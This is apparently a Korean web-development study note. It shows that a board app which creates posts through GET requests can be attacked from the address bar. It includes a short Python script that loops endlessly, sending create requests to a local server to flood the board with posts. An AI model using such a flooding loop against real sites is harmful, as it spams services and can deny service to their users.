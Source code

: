 주소창에 입력해서 게시판 공격할 수 있음



고수 해커는 제일 상단에 templates 폴더 안에 hacking.py 작성

```python
import requests

base_url = 'http://localhost:8000/posts/'

while (True):
    requests.get(base_url + 'create/?title=공격!!&content=공격!!')
```

그리고 python hacking.py 터미널에 입력하면 해킹됨 ㅜㅜ